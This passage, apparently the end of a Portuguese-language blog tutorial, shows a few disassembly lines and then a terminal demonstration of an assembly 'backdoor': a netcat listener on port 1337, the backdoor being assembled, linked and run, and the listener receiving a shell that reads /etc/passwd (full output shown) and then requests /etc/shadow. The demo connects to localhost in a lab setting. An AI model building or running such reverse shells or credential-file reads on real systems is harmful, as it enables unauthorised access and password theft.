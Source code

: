   4000ea:	30 2e                	xor    %ch,(%rsi)
  4000ec:	31                   	.byte 0x31

{% endhighlight %}
<p> Ultimo passo 09 executar e ver se funcionou :D</p>
<pre>
=======================Terminal 01 =========================
root@ChmoSec:~/Desktop/linux# nc -l -v -p 1337
listening on [any] 1337 ...
======================= Terminal 02 =========================
root@ChmoSec:~/Desktop/linux# nasm -f elf64 backdoor.asm
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux# ld backdoor.o -o backdoor
ld: warning: cannot find entry symbol _start; defaulting to 0000000000400080
root@ChmoSec:~/Desktop/linux# ./backdoor
=======================Terminal 01 Attack :D ========================
root@ChmoSec:~/Desktop/linux# nc -l -v -p 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 45732
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
mysql:x:101:103:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
colord:x:103:107:colord colour management daemon,,,:/var/lib/colord:/bin/false
usbmux:x:104:46:usbmux daemon,,,:/home/usbmux:/bin/false
miredo:x:105:65534::/var/run/miredo:/bin/false
ntp:x:106:111::/home/ntp:/bin/false
Debian-exim:x:107:112::/var/spool/exim4:/bin/false
avahi:x:108:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
beef-xss:x:109:116::/var/lib/beef-xss:/bin/false
dradis:x:110:118::/var/lib/dradis:/bin/false
pulse:x:111:119:PulseAudio daemon,,,:/var/run/pulse:/bin/false
haldaemon:x:112:121:Hardware abstraction layer,,,:/var/run/hald:/bin/false
iodine:x:113:65534::/var/run/iodine:/bin/false
postgres:x:114:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
sshd:x:115:65534::/var/run/sshd:/usr/sbin/nologin
stunnel4:x:116:127::/var/run/stunnel4:/bin/false
statd:x:117:65534::/var/lib/nfs:/bin/false
sslh:x:118:129::/nonexistent:/bin/false
Debian-gdm:x:119:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
rtkit:x:120:131:RealtimeKit,,,:/proc:/bin/false
saned:x:121:132::/home/saned:/bin/false
snmp:x:122:133::/var/lib/snmp:/bin/false
cat /etc/shadow